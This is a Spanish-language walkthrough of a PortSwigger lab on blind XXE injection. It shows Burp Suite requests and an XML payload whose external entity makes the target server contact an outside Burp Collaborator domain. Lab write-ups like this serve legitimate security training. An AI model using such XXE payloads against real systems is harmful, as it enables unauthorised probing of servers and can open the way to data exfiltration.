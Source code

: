 ```yaml
---
title: "Blind XXE with out-of-band interaction"
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Blind XXE with out-of-band interaction
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una función llamada `Check stock` que analiza la `entrada` en `formato XML` y `devuelve` cualquier `valor inesperado` en la respuesta. Puedes `detectar` la vulnerabilidad `blind XXE` provocando `out-of-band interactions` con un `dominio externo`. Para resolver el laboratorio, debemos utilizar una `entidad externa` para hacer que el analizador XML realice una `búsqueda DNS` y una `solicitud HTTP` hacia `Burp Collaborator`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-3/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-3/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-3/image_3.png)

Vamos a insertar un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y pulsamos en `Copy to clipboard`, este dominio obtenido lo vamos a usar para construir este `payload`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://7qyhremmrjqjtk32uztkk5jai1osci07.oastify.com"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y observamos que hemos `obtenido respuesta`

![](/assets/img/XXE-Injection-Lab-3/image_4.png)
